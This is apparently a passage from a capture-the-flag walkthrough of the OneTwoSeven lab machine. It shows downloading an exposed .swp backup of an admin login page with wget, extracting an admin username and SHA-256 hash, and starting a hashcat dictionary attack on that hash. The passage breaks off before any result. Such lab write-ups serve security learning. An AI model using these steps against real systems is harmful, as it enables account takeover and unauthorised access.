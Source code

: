 ![[002 Attachment/Pasted image 20250722201447.png]]

Use the `wget` command to download it.
```
┌──(chenduoduo㉿kali24)-[~/Desktop/CPTs/OneTwoSeven]
└─$ wget http://10.10.10.133/~ots-jNGEzMjM/root/var/www/html-admin/.login.php.swp

```
![[002 Attachment/Pasted image 20250722201737.png]]


After examining the file, we found content related to a username and password. What stands out is that the username is `ots-admin`—the presence of "admin" suggests this account may have higher privileges.  
Additionally, the password appears to be hashed using SHA256:

```
username: ots-admin  
password: 11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8
```

![[002 Attachment/Pasted image 20250722201917.png]]


Next, consider how to decrypt the hash to obtain the plaintext password:
- First, save the hash to a text file:
```bash
echo '11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8' > sha256_hash.txt
```

- Then, use `hashcat` to crack it (you can also use `john`):
```bash
hashcat -m 1400 sha256_hash.txt /usr/share/wordlists/rockyou.txt
```

Below is the full command sequence:
```
┌──(chenduoduo㉿kali24)-[~/Desktop/CPTs/OneTwoSeven]                                                  
└─$ echo '11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8' > sha256_hash.txt                                      
                                                                                                                                   
┌──(chenduoduo㉿kali24)-[~/Desktop/CPTs/OneTwoSeven]                                                  
└─$ cat sha256_hash.txt                                                                                                            
11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8                                                                   
                                                                                                                                   
┌──(chenduoduo㉿kali24)-[~/Desktop/CPTs/OneTwoSeven]                                                  
└─$ hashcat -m 1400 sha256_hash.txt /usr/share/wordlists/rockyou.txt                                                               
hashcat (v6.2.6) starting                                                                                                          

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-14700K, 6924/13913 MB (2048 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
```